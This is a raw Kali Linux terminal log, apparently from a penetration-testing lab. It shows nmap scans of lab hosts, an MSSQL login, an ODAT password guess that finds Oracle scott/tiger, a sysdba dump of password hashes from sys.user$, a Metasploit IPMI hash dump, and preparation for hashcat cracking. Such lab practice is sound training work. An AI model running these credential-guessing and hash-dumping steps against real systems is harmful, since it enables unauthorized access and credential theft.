Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 07:48 -0500
Nmap scan report for 10.129.4.132
Host is up (0.058s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.4.132\MSSQLSERVER: 
|     Instance name: MSSQLSERVER
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|     TCP port: 1433
|     Named pipe: \\10.129.4.132\pipe\sql\query
|_    Clustered: false
| ms-sql-ntlm-info: 
|   10.129.4.132\MSSQLSERVER: 
|     Target_Name: ILF-SQL-01
|     NetBIOS_Domain_Name: ILF-SQL-01
|     NetBIOS_Computer_Name: ILF-SQL-01
|     DNS_Domain_Name: ILF-SQL-01
|     DNS_Computer_Name: ILF-SQL-01
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-01-23T12:41:01
|_Not valid after:  2056-01-23T12:41:01
|_ssl-date: 2026-01-23T12:48:43+00:00; +1s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-23T12:48:43+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: ILF-SQL-01
|   NetBIOS_Domain_Name: ILF-SQL-01
|   NetBIOS_Computer_Name: ILF-SQL-01
|   DNS_Domain_Name: ILF-SQL-01
|   DNS_Computer_Name: ILF-SQL-01
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-23T12:48:32+00:00
| ssl-cert: Subject: commonName=ILF-SQL-01
| Not valid before: 2026-01-22T12:40:52
|_Not valid after:  2026-07-24T12:40:52
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|2012|2022|2016|Vista (96%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows Server 2019 (94%), Windows Server 2019 (92%), Microsoft Windows 10 1909 (92%), Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows 10 1709 - 21H2 (91%), Microsoft Windows 10 20H2 (90%), Microsoft Windows 10 20H2 - 21H1 (90%), Microsoft Windows Server 2016 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-23T12:48:35
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   61.98 ms 10.10.14.1
2   56.12 ms 10.129.4.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.30 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient backdoor:Password1@10.129.4.132
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(ILF-SQL-01): Line 1: Login failed for user 'backdoor'.
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient backdoor:Password1@10.129.4.132 -windows-auth
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ILF-SQL-01): Line 1: Changed database context to 'master'.
[*] INFO(ILF-SQL-01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (ILF-SQL-01\backdoor  dbo@master)> SELECT name FROM sys.databases;
name        
---------   
master      
tempdb      
model       
msdb        
Employees   
SQL (ILF-SQL-01\backdoor  dbo@master)> 

i㉿kali)-[~]
└─$ nmap 10.129.4.14210.129.4.142
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 07:58 -0500
Failed to resolve "10.129.4.14210.129.4.142".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.58 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.4.142            
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 07:59 -0500
Nmap scan report for 10.129.4.142
Host is up (0.063s latency).
Not shown: 987 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.79 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC -A -p 80,135,139,445,1521,5985,49152,49153,49154,49155,49159,49160,49161 10.129.4.142
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 08:00 -0500
Nmap scan report for 10.129.4.142
Host is up (0.057s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2012
OS CPE: cpe:/o:microsoft:windows_server_2012:r2
OS details: Microsoft Windows Server 2012 R2
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-23T13:02:20
|_  start_date: 2026-01-23T12:56:37
|_clock-skew: mean: -30s, deviation: 0s, median: -31s

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   55.88 ms 10.10.14.1
2   57.26 ms 10.129.4.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.38 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 1521 --script oracle-sid-brute 10.129.4.142
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 08:07 -0500
Stats: 0:01:43 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.129.4.142
Host is up (0.066s latency).

PORT     STATE SERVICE
1521/tcp open  oracle
| oracle-sid-brute: 
|_  XE

Nmap done: 1 IP address (1 host up) scanned in 132.60 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ cd ~/odat
cd: no such file or directory: /home/kali/odat
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/quentinhardy/odat.git
Cloning into 'odat'...
remote: Enumerating objects: 1309, done.
remote: Counting objects: 100% (317/317), done.
remote: Compressing objects: 100% (127/127), done.
remote: Total 1309 (delta 191), reused 308 (delta 186), pack-reused 992 (from 1)
Receiving objects: 100% (1309/1309), 1.54 MiB | 5.77 MiB/s, done.
Resolving deltas: 100% (810/810), done.
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ cd odat/
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ git submodule init
Submodule 'docs' (https://github.com/quentinhardy/odat.wiki.git) registered for path 'docs'
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ git submodule update
Cloning into '/home/kali/odat/docs'...
Submodule path 'docs': checked out '402d0446a807f8c75e07addaf0887a82c739bf1f'
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sudo apt update
Get:1 http://kali.download/kali kali-rolling InRelease [34.0 kB]
Get:2 http://kali.download/kali kali-rolling/main amd64 Packages [20.7 MB]
Get:3 http://kali.download/kali kali-rolling/main amd64 Contents (deb) [52.2 MB]
Get:4 http://kali.download/kali kali-rolling/contrib amd64 Packages [116 kB]
Get:5 http://kali.download/kali kali-rolling/contrib amd64 Contents (deb) [268 kB]
Get:6 http://kali.download/kali kali-rolling/non-free amd64 Packages [190 kB]
Fetched 73.5 MB in 10s (7,693 kB/s)                                                                               
780 packages can be upgraded. Run 'apt list --upgradable' to see them.
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sudo apt install python3-cx-oracle -y
The following packages were automatically installed and are no longer required:
  amass-common             libnet1                         node-inflight
  curlftpfs                libobjc-14-dev                  node-uri-js
  gir1.2-girepository-2.0  libplacebo349                   pocketsphinx-en-us
  libarmadillo14           libpocketsphinx3                python3-bluepy
  libavfilter10            libportmidi0                    python3-click-plugins
  libavformat61            libpostproc58                   python3-gpg
  libbluray2               libradare2-5.0.0t64             python3-kismetcapturebtgeiger
  libbson-1.0-0t64         librav1e0.7                     python3-kismetcapturefreaklabszigbee
  libconfig-inifiles-perl  libsphinxbase3t64               python3-kismetcapturertl433
  libdisplay-info2         libsqlcipher1                   python3-kismetcapturertladsb
  libfuse2t64              libswscale8                     python3-kismetcapturertlamr
  libgav1-1                libtheoradec1                   python3-multipart
  libgdal37                libtheoraenc1                   python3-protobuf
  libgeos3.14.0            libudfread0                     python3-pysmi
  libgirepository-1.0-1    libvdpau-va-gl1                 python3-xlrd
  libgpgme11t64            libwireshark18                  python3-xlutils
  libgpgmepp6t64           libwiretap15                    python3-xlwt
  libinstpatch-1.0-2       libwsutil16                     python3-zombie-imp
  libjs-jquery-ui          libx264-164                     samba-ad-dc
  libjs-underscore         libxml2                         samba-ad-provision
  libmjpegutils-2.1-0t64   libyelp0                        samba-dsdb-modules
  libmongoc-1.0-0t64       linux-image-6.12.38+kali-amd64  vdpau-driver-all
  libmpeg2encpp-2.1-0t64   mesa-vdpau-drivers
  libmplex2-2.1-0t64       node-fs.realpath
Use 'sudo apt autoremove' to remove them.

Installing:
  python3-cx-oracle
                                                                                                                   
Installing dependencies:
  libodpic4
                                                                                                                   
Suggested packages:
  python-cx-oracle-doc

Recommended packages:
  libaio1

Summary:
  Upgrading: 0, Installing: 2, Removing: 0, Not Upgrading: 780
  Download size: 203 kB
  Space needed: 870 kB / 95.3 GB available

Get:1 http://kali.download/kali kali-rolling/contrib amd64 libodpic4 amd64 4.6.0-1 [130 kB]
Get:2 http://http.kali.org/kali kali-rolling/contrib amd64 python3-cx-oracle amd64 8.3.0-3+b6 [72.4 kB]
Fetched 203 kB in 1s (343 kB/s)              
Selecting previously unselected package libodpic4:amd64.
(Reading database ... 502584 files and directories currently installed.)
Preparing to unpack .../libodpic4_4.6.0-1_amd64.deb ...
Unpacking libodpic4:amd64 (4.6.0-1) ...
Selecting previously unselected package python3-cx-oracle.
Preparing to unpack .../python3-cx-oracle_8.3.0-3+b6_amd64.deb ...
Unpacking python3-cx-oracle (8.3.0-3+b6) ...
Setting up libodpic4:amd64 (4.6.0-1) ...
Setting up python3-cx-oracle (8.3.0-3+b6) ...
Processing triggers for libc-bin (2.42-5) ...
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ python3 odat.py passwordguesser -s 10.129.4.142 -p 1521 -d XE
/home/kali/odat/Constants.py:7: SyntaxWarning: invalid escape sequence '\|'
  / \|  \ / \|_ _|
/home/kali/odat/DbmsScheduler.py:29: SyntaxWarning: invalid escape sequence '\w'
  self.CMD_WIND_PATH = "c:\windows\system32\cmd.exe"
/home/kali/odat/DbmsScheduler.py:30: SyntaxWarning: invalid escape sequence '\w'
  self.PS_X86_PATH = """C:\windows\syswow64\windowspowershell\\v1.0\powershell.exe"""
/home/kali/odat/DbmsScheduler.py:31: SyntaxWarning: invalid escape sequence '\W'
  self.PS_X64_PATH = """C:\Windows\System32\WindowsPowerShell\\v1.0\powershell.exe"""
/home/kali/odat/DbmsScheduler.py:171: SyntaxWarning: invalid escape sequence '\{'
  CMD_EXEC_FILE = ".\{0}"
/home/kali/odat/Java.py:35: SyntaxWarning: invalid escape sequence '\s'
  finalCommand[0] = systemRootvariable+"\\\system32\\\cmd.exe";
Traceback (most recent call last):
  File "/home/kali/odat/odat.py", line 54, in <module>
    from CVE_2012_3137 import CVE_2012_3137,runCVE20123137Module
  File "/home/kali/odat/CVE_2012_3137.py", line 9, in <module>
    from Crypto.Cipher import AES
ModuleNotFoundError: No module named 'Crypto'
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ pip3 install pycryptodome colorlog termcolor passlib python-libnmap
error: externally-managed-environment

× This environment is externally managed
╰─> To install Python packages system-wide, try apt install
    python3-xyz, where xyz is the package you are trying to
    install.
    
    If you wish to install a non-Kali-packaged Python package,
    create a virtual environment using python3 -m venv path/to/venv.
    Then use path/to/venv/bin/python and path/to/venv/bin/pip. Make
    sure you have pypy3-venv installed.
    
    If you wish to install a non-Kali-packaged Python application,
    it may be easiest to use pipx install xyz, which will manage a
    virtual environment for you. Make sure you have pipx installed.
    
    For more information, refer to the following:
    * https://www.kali.org/docs/general-use/python3-external-packages/
    * /usr/share/doc/python3.13/README.venv

note: If you believe this is a mistake, please contact your Python installation or OS distribution provider. You can override this, at the risk of breaking your Python installation or OS, by passing --break-system-packages.
hint: See PEP 668 for the detailed specification.
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ python3 odat.py passwordguesser -s 10.129.4.142 -p 1521 -d XE
Traceback (most recent call last):
  File "/home/kali/odat/odat.py", line 54, in <module>
    from CVE_2012_3137 import CVE_2012_3137,runCVE20123137Module
  File "/home/kali/odat/CVE_2012_3137.py", line 9, in <module>
    from Crypto.Cipher import AES
ModuleNotFoundError: No module named 'Crypto'
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ python3 odat.py passwordguesser -s 10.129.4.142 -p 1521 -d XE
Traceback (most recent call last):
  File "/home/kali/odat/odat.py", line 54, in <module>
    from CVE_2012_3137 import CVE_2012_3137,runCVE20123137Module
  File "/home/kali/odat/CVE_2012_3137.py", line 9, in <module>
    from Crypto.Cipher import AES
ModuleNotFoundError: No module named 'Crypto'
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ pip3 install pycryptodome colorlog termcolor passlib python-libnmap --break-system-packages
Defaulting to user installation because normal site-packages is not writeable
Collecting pycryptodome
  Downloading pycryptodome-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)
Collecting colorlog
  Downloading colorlog-6.10.1-py3-none-any.whl.metadata (11 kB)
Requirement already satisfied: termcolor in /usr/lib/python3/dist-packages (2.4.0)
Collecting passlib
  Downloading passlib-1.7.4-py2.py3-none-any.whl.metadata (1.7 kB)
Requirement already satisfied: python-libnmap in /usr/lib/python3/dist-packages (0.7.3)
Downloading pycryptodome-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.3 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.3/2.3 MB 13.2 MB/s  0:00:00
Downloading colorlog-6.10.1-py3-none-any.whl (11 kB)
Downloading passlib-1.7.4-py2.py3-none-any.whl (525 kB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 525.6/525.6 kB 6.4 MB/s  0:00:00
Installing collected packages: passlib, pycryptodome, colorlog
Successfully installed colorlog-6.10.1 passlib-1.7.4 pycryptodome-3.23.0
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ python3 odat.py passwordguesser -s 10.129.4.142 -p 1521 -d XE
/home/kali/odat/Tnspoison.py:72: SyntaxWarning: invalid escape sequence '\('
  searchCS = re.search('\(DESCRIPTION(.*)\)$',read)

[1] (10.129.4.142:1521): Searching valid accounts on the 10.129.4.142 server, port 1521                            
The login cis has already been tested at least once. What do you want to do:                      | ETA:  00:05:40 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                    | ETA:  00:11:30 
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                    | ETA:  00:10:32 
[!] Notice: 'dip' account is locked, so skipping this username for password                       | ETA:  00:09:24 
[!] Notice: 'hr' account is locked, so skipping this username for password                        | ETA:  00:06:52 
[!] Notice: 'mdsys' account is locked, so skipping this username for password                     | ETA:  00:04:48 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password                | ETA:  00:03:35 
[!] Notice: 'outln' account is locked, so skipping this username for password                     | ETA:  00:03:10 
[+] Valid credentials found: scott/tiger. Continue...       ###################                   | ETA:  00:01:41 
[!] Notice: 'xdb' account is locked, so skipping this username for password###################    | ETA:  00:00:19 
100% |############################################################################################| Time: 00:08:03 
[+] Accounts found on 10.129.4.142:1521/sid:XE: 
scott/tiger                                                                                                        
                                                                                                                   
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sqlplus scott/tiger@10.129.4.142/XE
Command 'sqlplus' not found, but can be installed with:
sudo apt install oracle-instantclient-sqlplus
Do you want to install it? (N/y)y
sudo apt install oracle-instantclient-sqlplus
The following packages were automatically installed and are no longer required:
  amass-common             libnet1                         node-inflight
  curlftpfs                libobjc-14-dev                  node-uri-js
  gir1.2-girepository-2.0  libplacebo349                   pocketsphinx-en-us
  libarmadillo14           libpocketsphinx3                python3-bluepy
  libavfilter10            libportmidi0                    python3-click-plugins
  libavformat61            libpostproc58                   python3-gpg
  libbluray2               libradare2-5.0.0t64             python3-kismetcapturebtgeiger
  libbson-1.0-0t64         librav1e0.7                     python3-kismetcapturefreaklabszigbee
  libconfig-inifiles-perl  libsphinxbase3t64               python3-kismetcapturertl433
  libdisplay-info2         libsqlcipher1                   python3-kismetcapturertladsb
  libfuse2t64              libswscale8                     python3-kismetcapturertlamr
  libgav1-1                libtheoradec1                   python3-multipart
  libgdal37                libtheoraenc1                   python3-protobuf
  libgeos3.14.0            libudfread0                     python3-pysmi
  libgirepository-1.0-1    libvdpau-va-gl1                 python3-xlrd
  libgpgme11t64            libwireshark18                  python3-xlutils
  libgpgmepp6t64           libwiretap15                    python3-xlwt
  libinstpatch-1.0-2       libwsutil16                     python3-zombie-imp
  libjs-jquery-ui          libx264-164                     samba-ad-dc
  libjs-underscore         libxml2                         samba-ad-provision
  libmjpegutils-2.1-0t64   libyelp0                        samba-dsdb-modules
  libmongoc-1.0-0t64       linux-image-6.12.38+kali-amd64  vdpau-driver-all
  libmpeg2encpp-2.1-0t64   mesa-vdpau-drivers
  libmplex2-2.1-0t64       node-fs.realpath
Use 'sudo apt autoremove' to remove them.

Installing:
  oracle-instantclient-sqlplus
                                                                                                                   
Summary:
  Upgrading: 0, Installing: 1, Removing: 0, Not Upgrading: 780
  Download size: 638 kB
  Space needed: 2,687 kB / 95.3 GB available

Get:1 http://kali.download/kali kali-rolling/non-free amd64 oracle-instantclient-sqlplus amd64 19.6.0.0.0-0kali6 [638 kB]
Fetched 638 kB in 1s (1,134 kB/s)                  
Selecting previously unselected package oracle-instantclient-sqlplus.
(Reading database ... 502604 files and directories currently installed.)
Preparing to unpack .../oracle-instantclient-sqlplus_19.6.0.0.0-0kali6_amd64.deb ...
Unpacking oracle-instantclient-sqlplus (19.6.0.0.0-0kali6) ...
Setting up oracle-instantclient-sqlplus (19.6.0.0.0-0kali6) ...
Processing triggers for kali-menu (2025.4.3) ...
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sqlplus scott/tiger@10.129.4.142/XE
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sudo sh -c "echo /usr/lib/oracle/19.6/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sudo ldconfig
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sqlplus scott/tiger@10.129.4.142/XE

SQL*Plus: Release 19.0.0.0.0 - Production on Fri Jan 23 08:27:10 2026
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO

SQL> select table_name from all_tables;

TABLE_NAME
------------------------------
DUAL
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
STMT_AUDIT_OPTION_MAP
AUDIT_ACTIONS
WRR$_REPLAY_CALL_FILTER
HS_BULKLOAD_VIEW_OBJ
HS$_PARALLEL_METADATA
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE
HELP

TABLE_NAME
------------------------------
DR$OBJECT_ATTRIBUTE
DR$POLICY_TAB
DR$THS
DR$THS_PHRASE
DR$NUMBER_SEQUENCE
SRSNAMESPACE_TABLE
OGIS_SPATIAL_REFERENCE_SYSTEMS
OGIS_GEOMETRY_COLUMNS
SDO_UNITS_OF_MEASURE
SDO_PRIME_MERIDIANS
SDO_ELLIPSOIDS

TABLE_NAME
------------------------------
SDO_DATUMS
SDO_COORD_SYS
SDO_COORD_AXIS_NAMES
SDO_COORD_AXES
SDO_COORD_REF_SYS
SDO_COORD_OP_METHODS
SDO_COORD_OPS
SDO_PREFERRED_OPS_SYSTEM
SDO_PREFERRED_OPS_USER
SDO_COORD_OP_PATHS
SDO_COORD_OP_PARAMS

TABLE_NAME
------------------------------
SDO_COORD_OP_PARAM_USE
SDO_COORD_OP_PARAM_VALS
SDO_CS_SRS
NTV2_XML_DATA
SDO_CRS_GEOGRAPHIC_PLUS_HEIGHT
SDO_PROJECTIONS_OLD_SNAPSHOT
SDO_ELLIPSOIDS_OLD_SNAPSHOT
SDO_DATUMS_OLD_SNAPSHOT
SDO_XML_SCHEMAS
WWV_FLOW_DUAL100
DEPT

TABLE_NAME
------------------------------
EMP
BONUS
SALGRADE
WWV_FLOW_TEMP_TABLE
WWV_FLOW_LOV_TEMP
SDO_TOPO_DATA$
SDO_TOPO_RELATION_DATA
SDO_TOPO_TRANSACT_DATA
SDO_CS_CONTEXT_INFORMATION
SDO_TXN_IDX_EXP_UPD_RGN
SDO_TXN_IDX_DELETES

TABLE_NAME
------------------------------
SDO_TXN_IDX_INSERTS
SDO_ST_TOLERANCE
XDB$XIDX_IMP_T
KU$_DATAPUMP_MASTER_10_1
KU$_DATAPUMP_MASTER_11_1
KU$_DATAPUMP_MASTER_11_1_0_7
KU$_DATAPUMP_MASTER_11_2
IMPDP_STATS
ODCI_PMO_ROWIDS$
ODCI_WARNINGS$
ODCI_SECOBJ$

TABLE_NAME
------------------------------
KU$_LIST_FILTER_TEMP_2
KU$_LIST_FILTER_TEMP
KU$NOEXP_TAB
OL$NODES
OL$HINTS
OL$
PLAN_TABLE$
WRI$_ADV_ASA_RECO_DATA
PSTUBTBL

75 rows selected.

SQL> exit
Disconnected from Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
                                                                                                                   
┌──(kali㉿kali)-[~/odat]
└─$ sqlplus scott/tiger@10.129.4.142/XE as sysdba

SQL*Plus: Release 19.0.0.0.0 - Production on Fri Jan 23 08:29:24 2026
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
DBFS_ROLE
DIP                            CE4A36B8E06CA59C
AQ_ADMINISTRATOR_ROLE
AQ_USER_ROLE
DATAPUMP_EXP_FULL_DATABASE
DATAPUMP_IMP_FULL_DATABASE
ADM_PARALLEL_EXECUTE_TASK
GATHER_SYSTEM_STATISTICS
XDB_WEBSERVICES_OVER_HTTP

NAME                           PASSWORD
------------------------------ ------------------------------
ORACLE_OCM                     5A2E026A9157958C
RECOVERY_CATALOG_OWNER
SCHEDULER_ADMIN
HS_ADMIN_SELECT_ROLE
HS_ADMIN_EXECUTE_ROLE
HS_ADMIN_ROLE
OEM_ADVISOR
OEM_MONITOR
DBSNMP                         E066D214D5421CCC
APPQOSSYS                      519D632B7EE7F63A
PLUSTRACE

NAME                           PASSWORD
------------------------------ ------------------------------
CTXSYS                         D1D21CA56994CAB6
CTXAPP
XDB                            E76A6BD999EF9FF1
ANONYMOUS                      anonymous
XDBADMIN
XDB_SET_INVOKER
AUTHENTICATEDUSER
XDB_WEBSERVICES
XDB_WEBSERVICES_WITH_PUBLIC
XS$NULL                        DC4FCC8CB69A6733
_NEXT_USER

NAME                           PASSWORD
------------------------------ ------------------------------
MDSYS                          72979A94BAD2AF80
HR                             4C6D73C3E8B0F0DA
FLOWS_FILES                    30128982EA6D4A3D
APEX_PUBLIC_USER               4432BA224E12410A
APEX_ADMINISTRATOR_ROLE
APEX_040000                    E7CE9863D7EEB0A4
SCOTT                          F894844C34402B67

51 rows selected.

─(kali㉿kali)-[~]
└─$ sudo nmap -sU --script ipmi-version -p 623 10.129.4.160
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 08:40 -0500
Nmap scan report for 10.129.4.160
Host is up (0.059s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 1.01 seconds
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ msfconsole -q
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.129.4.160                                                                                                                                                                       
RHOSTS => 10.129.4.160                                                                                                                                                                                                                      
msf auxiliary(scanner/ipmi/ipmi_dumphashes) > run                                                                                                                                                                                           
[+] 10.129.4.160:623 - IPMI - Hash found: admin:8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348                     
[*] Scanned 1 of 1 hosts (100% complete)                                                                                                                                                                                                    
[*] Auxiliary module execution completed                                                                                                                                                                                                    
msf auxiliary(scanner/ipmi/ipmi_dumphashes) >    

┌──(kali㉿kali)-[~]
└─$ echo "admin:8b52e38c8200000006ac3132148b08d41f8ae00a2bb0d724caa92622c16788f7c50acc0c3adb0f9ea123456789abcdefa123456789abcdef140561646d696e:0dc85343d79cd88893061d493b6686ba63662348" > ipmi.txt
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt --break-system-packages
hashcat: unrecognized option '--break-system-packages'
Invalid argument specified.

                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ hashcat -m 7300 ipmi.txt /usr/share/wordlists/rockyou.txt                        
hashcat (v7.1.2) starting

/usr/share/wordlists/rockyou.txt: No such file or directory

Started: Fri Jan 23 08:45:03 2026
Stopped: Fri Jan 23 08:45:03 2026
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ locate rockyou.txt            
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/wordlists/rockyou.txt.gz
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
[sudo] password for kali: 
                                                                                                                                                                                                                                            
